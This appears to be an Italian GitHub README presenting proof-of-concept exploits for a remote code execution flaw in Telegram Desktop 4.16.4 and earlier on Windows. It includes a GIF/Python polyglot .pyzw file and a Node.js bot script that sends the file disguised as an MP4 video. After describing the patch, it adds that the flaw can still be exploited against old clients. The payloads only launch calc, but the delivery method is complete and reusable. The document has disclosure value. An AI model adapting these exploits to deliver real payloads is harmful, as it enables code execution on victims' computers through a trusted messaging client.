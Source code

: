 # TELEGRAM DESKTOP RCE
## Setup della vittima
- **Telegram Desktop Version <= 4.16.4**
- **Python installato**
- **OS = Windows**

### WARNING: Questi PoC funzionano solo su Windows, altri sistemi operativi non sono stati testati.
La vulnerabilità si basa sul "typo" nello scrivere il nome dell'estensione "pyzw" nell'elenco delle estensioni pericolose.

![photo1713802375(1)](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1908a7dc-816b-47a9-9389-9915de4e2ea1)

## PoC 1 ==> file polyglot (image/gif)

File con del codice python ma che ha MIME “image/gif”
**exploit1.pyzw**
```
GIF89A = “test”
import os
os.system(“calc”)
```
Infatti **inserendo nell’header del file il magic number 47 49 46 38 37 61 (GIF89A)
è possibile creare un file che sembra una GIF ma che in realtà nasconde al suo interno un codice malevolo**.

![photo1713493979](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/a8e72a18-55bb-401c-bfb9-a2c17799c98d)

L'hexdump:

![image_2024-04-19_04-04-03](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/05e65e01-c8a7-43c7-a50d-d362773e44be)

Durante il caricamento il file viene considerato come una GIF da telegram desktop
tuttavia, nel momento di visualizzazione appare come una GIF non funzionante e viene visualizzato come un rettangolo nero.

Essendo considerata come una GIF da telegram desktop, quando il client prova ad aprirla, viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul MIME) la apre con python, permettendo di fatto RCE.

## PoC 2 ==> Telegram BOT API (video/mp4)
Codice che si vuole far eseguire alla vittima
**exploit2.pyzw**
```
__import__("subprocess").call(["calc.exe"])
```

Questa vulnerabilità sfrutta un altro concetto, le API di telegram hanno una funzione **SendVideo** che permette di inviare dei video tramite multipart/form-data e si è scoperto che **non ci sono controlli per verificare se viene effettivamente caricato un file di tipo video, dunque è possibile caricare dei file di qualunque estensione e di qualsiasi MIME come fossero dei video**.

![immagine](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1e02b04d-64c7-4f65-8d56-80026b492286)

Dato che il client si fida(va) ciecamente del server, il file verrà visualizzato come un video.

**SendVideoCall.js**
```
const fs = require("fs");
const TelegramBot = require("node-telegram-bot-api");

const token = "<BOT_TOKEN>";

const bot = new TelegramBot(token, { polling: true });

bot.onText(/\/video/, (msg) => {
  const chatId = msg.chat.id;

  bot.sendVideo(
    chatId,
    fs.readFileSync("exploit2.pyzw"),
    {
      width: 300,
      height: 300,
      duration: 30,
      // thumbnail: "https://duckduckgo.com/favicon.ico",
    }, {
      filename: "fakeVideo.pyzw",
      contentType: "video/mp4"
    }
  );
});
```

Tuttavia, nel momento di visualizzazione, appare come un video non funzionante e viene visualizzato come un rettangolo nero con il simbolo "play" al centro e la durata fake (specificata dall'attaccante nella sua API call nell parametro "duration").

						<img width="545" alt="image_2024-04-22_19-59-25" src="https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/048cf67b-1827-4dc1-ba47-4d0846cdff51">


Essendo considerato come un video da telegram desktop, quando il client prova ad aprirlo, viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul Content-Type) lo apre con python, permettendo di fatto RCE.

## WARNING: la vulnerabilità è stata patchata!
- **lato server**: aggiungendo l'estensione .untrusted ai file .pyzw (*.pyzw.untrusted)
- **lato client** (> 4.16.4) :
	* aggiungendo "pyzw" all'elenco delle estensioni pericolose
	* facendo in modo che non venga mostrata l'ateprima delle GIF e dei video non funzionanti 
	* aggiungendo un controllo per verificare che il MIME corrisponde al tipo di estensione inviata; se non corrisponde, il client aggiungerà l'estensione corrispondente al MIME/Content type, ad esempio:
		*  se viene inviato un file con MIME GIF verrà scaricato dal client con estensione corrispondente \*.pyzw.gif, 
		*  invece, se il file viene inviato dal BOT con ContentType "video/mp4" allora il file verrà scaricato sul client come \*.pyzw.mp4.
 	
<br>

![photo1713802375](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/2ae70b62-e69b-424b-9649-ad347670e30d)


**È ancora possibile sfruttare la vulnerabilità** rielaborando uno degli exploit se: 
- il target ha ancora il client telegram desktop vecchio installato (<= 4.16.4);
- si conosce un programma installato nel computer della vittima in grado di eseguire delle azioni a seguito dell'apertura di un file.
